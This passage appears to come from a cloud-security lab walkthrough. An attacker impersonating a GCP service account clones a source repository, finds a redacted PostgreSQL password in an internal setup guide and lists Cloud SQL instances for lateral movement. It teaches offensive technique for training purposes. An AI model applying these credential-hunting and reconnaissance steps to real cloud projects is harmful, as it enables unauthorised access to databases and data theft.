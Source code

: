 It reveals the repository name (`guides-docs`), the project ID (`gr-proj-1`), and the repository URL. Let's clone the repository locally to perform a detailed analysis:
```
└─$ gcloud source repos clone guides-docs --project=gr-proj-1
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
Cloning into '/home/kali/pwnedlabs/gcp/guides-docs'...
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
remote: Total 15 (delta 3), reused 15 (delta 3)
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Project [gr-proj-1] repository [guides-docs] was cloned to [/home/kali/pwnedlabs/gcp/guides-docs].
```
```
└─$ ls -lha
total 20K
drwxrwxr-x 3 kali kali 4.0K Sep  7 21:59 .
drwxrwxr-x 6 kali kali 4.0K Sep  7 21:59 ..
-rw-rw-r-- 1 kali kali 1.5K Sep  7 21:59 cloud-sql.md
drwxrwxr-x 8 kali kali 4.0K Sep  7 21:59 .git
-rw-rw-r-- 1 kali kali   75 Sep  7 21:59 Readme.md
                                                   
```
```
└─$ cat cloud-sql.md 
# Setting up Google Cloud SQL
<SNIP>
4. Connect to the Cloud SQL instance:

    ```bash
        PGPASSWORD='<REDACTED>' psql -h $customer-app-1 -U db_connect -p 5432 -d postgres -w

    ```
```

We see credentials for connecting to a PostgreSQL Cloud SQL database in the `cloud-sql.md` file. Usually, internal documentation stored in SharePoint, Wikis or repositories are a rich source of credentials for lateral and vertical movement

Identify running Cloud SQL instances
```
└─$ gcloud sql instances list --project=gr-proj-1
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
NAME                       DATABASE_VERSION  LOCATION       TIER         PRIMARY_ADDRESS  PRIVATE_ADDRESS  STATUS
gigantic-retail-backup-db  MYSQL_8_0_31      us-central1-b  db-f1-micro  34.134.161.125   -                RUNNABLE
customer-app-1             POSTGRES_15       us-central1-f  db-f1-micro  34.31.83.80      -                RUNNABLE
```
